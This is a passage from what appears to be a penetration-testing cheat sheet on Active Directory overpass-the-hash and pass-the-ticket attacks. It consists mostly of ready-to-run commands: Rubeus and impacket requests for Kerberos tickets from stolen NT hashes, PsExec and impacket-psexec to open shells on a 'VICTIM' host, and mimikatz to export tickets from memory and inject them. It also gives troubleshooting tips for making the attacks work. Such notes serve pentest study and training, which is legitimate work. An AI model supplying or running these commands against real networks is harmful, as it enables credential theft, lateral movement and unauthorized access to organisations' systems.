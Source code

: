 ```powershell

# ready to use this session with creds (see psexec cmd below)


# using Rubeus
# be sure to use format "corp.com" for DOMAIN
.\Rubeus.exe asktgt /domain:DOMAIN /user:USER /rc4:NTHASH /ptt


# now you can use PsExec in context of stolen user
.\PsExec.exe -accepteula \\VICTIM cmd
# note, the spawned shell will be under stolen user, not SYSTEM

# or maybe just list shares
net view \\VICTIM
dir \\VICTIM\SHARE
```

On Kali, use impacket:

```sh
# be sure to use format "corp.com" for DOMAIN
impacket-getTGT -dc-ip DC_IP DOMAIN/USERNAME -hashes :NTHASH # or -aesKey AESKEY
export KRB5CCNAME=$(pwd)/USERNAME.ccache
impacket-psexec -k -no-pass DOMAIN/USER@VICTIM_FQDN
# this spawned shell will (still) be SYSTEM
# when you can't resolve domain IPs, add -dc-ip DC_IP -target-ip VICTIM_IP

# if you get the error:
[-] SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)
# check that the target IP is correct/matches the victim hostname

# USE THIS
# you can also do overpass-the-hash directly with one command:
impacket-psexec -k -hashes :NTLM DOMAIN/USER@VICTIM_FQDN
```


### 5.3.4 Pass-the-Ticket

In Pass-the-Ticket, you steal someone else's kerberos ticket from memory and use it to access resources you wouldn't be able to. Stealing a TGS ticket more versatile than a TGT because you can use it on other machines, not just the one you stole it from. This attack is similar to Overpass-the-hash, except you're skipping over the AS-REQ, straight to the part where you have a ticket in hand.

Acquiring tickets with mimikatz:

```powershell
# in mimikatz shell:
privilege::debug
sekurlsa::tickets /export
kerberos::ptt FILENAME.kirbi

# in cmd shell:
# list tickets (pick which ones you want to copy to other machine)
dir *.kirbi

# check you have the ticket in memory
klist

# then use the permissions granted by the ticket (e.g. list files in share)
ls \\VICTIM\SHARE
```
